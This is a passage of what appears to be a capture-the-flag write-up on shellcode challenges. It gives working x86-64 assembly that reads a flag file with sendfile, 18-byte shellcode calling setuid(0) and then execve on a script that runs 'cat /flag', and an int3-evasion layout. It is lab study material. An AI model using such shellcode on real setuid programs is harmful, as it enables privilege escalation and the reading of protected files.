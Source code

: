 ```nasm
    mov r15, rax
    
    ; sendfile(r15, r14, 0, 0x1000)
    mov rdi, r15
    mov rsi, r14
    mov rdx, 0
    mov r10, 0x100
    mov rax, 40
    syscall

```
flag will be stored in `outflag` in the current directory
# level 8
- have to write shellcode in just 18 bytes. cannot be multi staged because the memory region as write permission is removed after 18 bytes are read.
- we can set real uid to 0 and then execute the shell script in current directly which is named "i" to save space. the reason we need setuid(0) is because execve will the run bash scripts with ruid, and ruid is 1000, unless we explicitly set it with setuid()
```nasm
.intel_syntax noprefix

.global _start

.start:
	; setuid(0)
    xor edi, edi
    mov al, 105
    syscall

    ; execve("i", null, null)
    push 0x69
    push rsp
    pop rdi
    xor esi, esi
    xor edx, edx
    mov al, 59
    syscall
```
file i can have
```bash
#!/bin/bash
cat /flag
```
other solutions that uses chmod are much better and elegant, but i did not know that chmod was a syscall when i wrote my shellcode.
# level 9
- every other 10 bytes in shellcode is modified with `int3` instruction. strategy for this challenge is:
```nasm
instructions + jump + nop_padding = 10 bytes
10 * nops
instructions + jump + nop_padding = 10 bytes
10 * nops
instructions + jump + nop_padding = 10 bytes
10 * nops
...
```
- we are opening file `f` in the current. directory which is a symlink to `/flag`
```nasm
.intel_syntax noprefix

```